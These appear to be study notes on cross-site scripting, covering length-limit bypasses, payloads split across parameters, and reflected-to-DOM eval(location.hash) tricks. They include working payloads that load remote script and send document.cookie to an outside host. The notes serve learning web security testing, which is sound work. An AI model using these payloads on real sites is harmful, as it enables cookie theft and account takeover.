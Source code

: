 - Beating Length Limit
	http://dean.edwards.name/packer/
	- Try inject a js file from an remote resource
	'<script src=http://a></script>'
	'open(“//a/”+document.cookie)' -> Para abrir en el host a la ruta "document.cookie"
	- Try exploit several inputs to create a unique attack using comments if neccesary!
	```
	https://wahh-app.com/account.php?page_id=244&seed=129402931&mode=normal

	<input type=”hidden” name=”page_id” value=”244”>
	<input type=”hidden” name=”seed” value=”129402931”>
	<input type=”hidden” name=”mode” value=”normal”>
	
	##atack
	https://myapp.com/account.php?page_id=”><script>/*&seed=*/alert(document
.cookie);/*&mode=*/</script>

	#Result!
	<input type=”hidden” name=”page_id” value=””><script>/*”>
	<input type=”hidden” name=”seed” value=”*/alert(document.cookie);/*”>		
	<input type=”hidden” name=”mode” value=”*/</script>”>
	```

    - The third technique to bypass long limit is"convert" a reflected XSS	into DOM-based vulnerability
	```
	#Injecting this into a parameter vulenrable to reflexted XSS we can convert the XSS flaw into DOM-based vulnerability and execute then a second script located withing the fragment string
	<script>eval(location.hash.slice(1))</script>

	http://mdsec.net/error/5/Error.ashx?message=<script>eval(location.hash
.substr(1))</script>#alert(‘long script here ......’)

	##even shorter
	http://mdsec.net/error/5/Error.ashx?message=<script>eval(unescape(location))
</script>#%0Aalert(‘long script here ......’)
	```
the %0A is URL-decoded to become a newline, signaling the end of the comment.


**Scaling the attack to other application Pages**
Context, we have a XSS but in a pages where we can not exploit nothing at begin... but
If you use an iframe to cover the whole web and show the new web. This way we make the user execute the script in the top level.
Cons:
- Url never change even if we navigate over others webs -> HTML5 allow you change the url in the browser!  `window.history.pushState()` (Not the domain my friend!)

Example of this kind of attack:
http://blog.kotowicz.net/2010/11/xss-track-how-to-quietly-track-whole.html

**Exploiting via cookie**
- Try to change the HTTP method and use an URL or body with a parameter with the same name that the cookie.
- If the webpage have some functionalities that allow show the cookie value in the webpage,Exploiting the vulnerability would then require the victim to be induced into making two requests: to set the required cookie containing an XSS payload, and to request the functionality where the cookie’s value is processed in an unsafe way.
